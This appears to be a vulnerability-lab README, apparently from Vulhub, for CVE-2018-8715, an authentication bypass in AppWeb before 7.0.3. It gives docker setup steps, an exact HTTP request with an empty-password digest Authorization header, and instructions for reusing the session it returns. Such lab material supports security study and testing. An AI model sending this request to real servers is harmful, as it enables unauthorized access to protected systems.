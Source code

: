 # AppWeb Authentication Bypass（CVE-2018-8715）

[中文版本（Chinese version）](https://github.com/vulhub/vulhub/blob/master/appweb/CVE-2018-8715/README.zh-cn.md )

AppWeb is an embeded web server developed by Embedthis Software LLC. Writen in C/C++, can be run most OS.

AppWeb can be configued to use authentication，including the following three ：

- ​	basic  auth
- ​	digest auth，store session with cookie，instead of Aurhorization header
- ​	form auth

version < 7.0.3  ，there is a vulnerability with digest auth and form auth；If user give **null** as a password,

AppWeb will response as success because of a logic vul.



Reference:

- https://ssd-disclosure.com/index.php/archives/3676
- https://github.com/embedthis/appweb/issues/610



## Vulnerability environment

start the Vulnerability environment

```
docker-compose up -d
```

Access`http://your-ip:8080`，then you will see the username and password field。

## Exploit

You need to know an existed username，there is an admin for the environment.

Generate a http header  `Authorization: Digest username=admin`，send the below packet to the server:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

In the response, because of the empty password field，the server represent an error with a http status-code 200，including a sessioin as well.

![](1.png)

Use the session above  in the brower，then we can access the page which is originly need to be authenticed：

![](2.png)
